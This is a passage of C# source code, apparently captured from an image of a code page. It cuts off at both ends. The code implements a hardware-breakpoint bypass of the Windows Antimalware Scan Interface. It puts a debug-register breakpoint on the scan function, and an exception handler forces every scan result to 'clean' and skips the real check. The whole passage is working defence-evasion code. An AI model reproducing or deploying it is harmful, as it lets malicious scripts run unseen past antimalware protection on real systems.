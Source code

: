 ```

            EnableBreakpoint(ctx, pABuF, 0);
            WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
        }
        
        public static long Handler(IntPtr exceptions)
        {
            WinAPI.EXCEPTION_POINTERS ep = new WinAPI.EXCEPTION_POINTERS();
            ep = (WinAPI.EXCEPTION_POINTERS)Marshal.PtrToStructure(exceptions, typeof(WinAPI.EXCEPTION_POINTERS));

            WinAPI.EXCEPTION_RECORD ExceptionRecord = new WinAPI.EXCEPTION_RECORD();
            ExceptionRecord = (WinAPI.EXCEPTION_RECORD)Marshal.PtrToStructure(ep.pExceptionRecord, typeof(WinAPI.EXCEPTION_RECORD));

            WinAPI.CONTEXT64 ContextRecord = new WinAPI.CONTEXT64();
            ContextRecord = (WinAPI.CONTEXT64)Marshal.PtrToStructure(ep.pContextRecord, typeof(WinAPI.CONTEXT64));

            if (ExceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && ExceptionRecord.ExceptionAddress == pABuF)
            {
                ulong ReturnAddress = (ulong)Marshal.ReadInt64((IntPtr)ContextRecord.Rsp);

                IntPtr ScanResult = Marshal.ReadIntPtr((IntPtr)(ContextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean

                Marshal.WriteInt32(ScanResult, 0, WinAPI.AMSI_RESULT_CLEAN);

                ContextRecord.Rip = ReturnAddress;
                ContextRecord.Rsp += 8;
                ContextRecord.Rax = 0; // S_OK
                
                Marshal.StructureToPtr(ContextRecord, ep.pContextRecord, true); //Paste our altered ctx back in TO THE RIGHT STRUCT
                return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
            }
            else
            {
                return WinAPI.EXCEPTION_CONTINUE_SEARCH;
            }

        }

        public static void EnableBreakpoint(WinAPI.CONTEXT64 ctx, IntPtr address, int index)
        {
            switch (index)
            {
                case 0:
                    ctx.Dr0 = (ulong)address.ToInt64();
                    break;
                case 1:
                    ctx.Dr1 = (ulong)address.ToInt64();
                    break;
                case 2:
                    ctx.Dr2 = (ulong)address.ToInt64();
                    break;
                case 3:
                    ctx.Dr3 = (ulong)address.ToInt64();
                    break;
            }

            ctx.Dr7 = SetBits(ctx.Dr7, 16, 16, 0);
```